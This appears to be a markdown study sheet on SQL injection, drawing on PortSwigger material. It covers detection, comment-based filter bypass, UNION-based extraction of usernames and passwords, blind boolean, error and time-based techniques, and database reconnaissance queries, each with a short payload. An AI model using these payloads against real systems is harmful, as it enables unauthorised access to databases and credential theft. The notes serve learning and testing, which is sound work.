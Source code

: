 ## Detection
- **Manual testing**:
    - Insert single quote `'`; look for errors.
    - Test boolean logic: `OR 1=1` vs `OR 1=2`.
    - Time-based payloads: delays to notice slow responses.
    - OAST payloads: trigger out‑of‑band interactions.
- **Automation**: Use Burp Scanner for rapid scanning.

## Attack types
### 1. Retrieving hidden data
- Inject comment to remove conditions:
    - `…?category=Gifts'--` drops `AND released = 1`, revealing unreleased items. [PortSwigger+1PortSwigger+1](https://portswigger.net/web-security/sql-injection?utm_source=chatgpt.com

### 2. UNION-based data exfiltration
- Use `UNION SELECT` to merge attacker-selected rows.    
- Steps:
    1. Determine column count using `ORDER BY` or `UNION SELECT NULL,...`.
    2. Find which columns accept strings.
    3. Inject:
        `' UNION SELECT username,password FROM users--` 

### 3. Blind SQL Injection
- When no direct data output:
    - **Boolean-based**: compare conditions to infer data:
        `' AND SUBSTRING((SELECT password FROM Users WHERE username='Administrator'),1,1)>'m`
        Repeat until resolved. 
    - **Error-based**: use errors to leak data:
        `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`    
    - **Time-based**:
        `'…' OR pg_sleep(10)--` 
        Observe 10s delay. 
    - **Out-of-band (OAST)**: trigger DNS/HTTP to exfiltrate.

### Database Recon
- Query version:
    - SQL Server/MySQL: `SELECT @@version`
    - PostgreSQL: `SELECT version()`
    - Oracle: `SELECT * FROM v$version`
- Inspect schema:
    - `information_schema.tables` → list tables.
    - `information_schema.columns WHERE table_name='X'` → columns.